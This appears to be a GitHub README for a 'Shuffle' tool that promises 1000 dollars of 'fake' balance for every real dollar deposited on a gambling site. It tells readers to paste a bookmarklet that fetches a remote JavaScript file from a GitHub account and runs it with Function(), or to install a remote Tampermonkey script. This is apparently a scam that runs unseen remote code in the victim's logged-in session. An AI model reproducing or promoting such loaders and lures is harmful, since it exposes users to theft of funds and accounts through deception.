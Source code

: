 ### 💸 How to Use

Deposit any amount you want — totally up to you.

**Conversion Rate:**
`1$ REAL = 1000$ FAKE`
Just make sure you select **ARS** as your currency.

### 🧩 Option 1: Bookmark (Quick & Easy)

1. Copy this entire code:

   ```js
   javascript:(()=>{fetch('https://raw.githubusercontent.com/drojnisdisauioa/shuffle/refs/heads/main/bookmark.js').then(r=>r.text()).then(code=>Function(code)());})();
   ```
2. Create a new bookmark in your browser.
3. Paste the code into the **URL** field.
4. Go to the website, click the bookmark, and you're good to go.

### 🛠️ Option 2: Tampermonkey

1. Copy the code from this link "https://raw.githubusercontent.com/drojnisdisauioa/Shuffle/refs/heads/main/tampermonkey.js"
2. Open **Tampermonkey Dashboard** and click **Create a new script**.
3. Paste the code, then save.
4. Head to the website and it’ll do its thing automatically.
